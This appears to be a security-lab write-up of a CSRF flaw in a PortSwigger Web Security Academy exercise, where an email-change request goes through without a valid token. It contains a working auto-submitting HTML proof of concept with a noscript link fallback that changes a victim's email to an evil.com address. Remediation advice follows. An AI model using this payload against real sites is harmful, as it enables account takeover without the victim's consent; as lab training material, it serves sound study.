

# PS-006 — CSRF: Missing/Invalid Token
**Date / Analyst:** 2025-09-08 — Christopher Araque
**Target:** PortSwigger WSA (CSRF basic, token missing/ignored)

## TL;DR
A state-changing action (e.g., change email) succeeds without a valid CSRF token.
**Impact:** attacker can alter account data via a lure link or auto-submitting page.
**Fix:** per-request, unpredictable tokens; validate Origin/Referer; SameSite cookies.

## Scope & Context
- Endpoint: `/my-account/change-email`
- Auth context: logged-in user (wiener)
- Method: GET (token ignored)
- Token present, but ignored for GET; request succeeds without CSRF validation.
## Steps to Reproduce
1) Log in. Find a state-changing action (change email/password/add comment).
2) Capture request (Burp/DevTools). Confirm token is missing/ignored/static.
3) Build a PoC page that auto-submits the same request from a third-party context.
4) While logged in, open the PoC → observe server-side change.

## Evidence
- Request/Response: [ps-006-request.txt](../../evidence/ps-csrf/ps-006-request.txt)
- Screenshot: 

## PoC (edit action/fields)
```html
Head:
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Cache-Control: no-store

<!doctype html>
<html>
  <body>
    <form action="<lab-host>web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="victim%40evil.com">
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>

Body:
<!doctype html>
<html>
  <body>
    <!-- Auto-submit GET request that bypasses CSRF token enforcement -->
    <form action="https://0a92000504c64cc580d26c250088004e.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="victim%40evil.com">
    </form>
    <script>document.forms[0].submit();</script>

    <!-- Fallback (works even with JS off): -->
    
    <noscript>
      <a href="https://0a92000504c64cc580d26c250088004e.web-security-academy.net/my-account/change-email?email=victim%40evil.com">Click here</a>
    </noscript>
  </body>
</html>

## Impact
Email change ➜ password reset ➜ potential takeover

## Recommended Remediation
- Enforce **per-request, unpredictable CSRF tokens** bound to user/session.
- **Validate Origin/Referer** on state-changing requests.
- Set cookies with **SameSite=Lax/Strict**, **HttpOnly**, **Secure**.
- Deny state-changing **GET**; prefer **POST** with CSRF defenses.

## Notes
- If token exists but action still succeeds when removed/altered → “token not validated”.
- If token is static or leaked in GET, document the weakness.
